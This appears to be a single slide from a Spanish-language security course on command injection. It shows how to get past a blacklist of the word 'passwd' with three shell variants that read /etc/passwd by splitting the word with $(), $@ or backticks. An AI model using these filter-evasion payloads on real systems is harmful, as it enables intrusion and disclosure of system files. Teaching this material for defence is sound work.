

Command Injection III

Bypass blacklist de palabras

! Prohibido utilizar "passwd"
$> cat /etc/pas$()swd
$> cat /etc/pass$@wd
$> cat /etc/pass``wd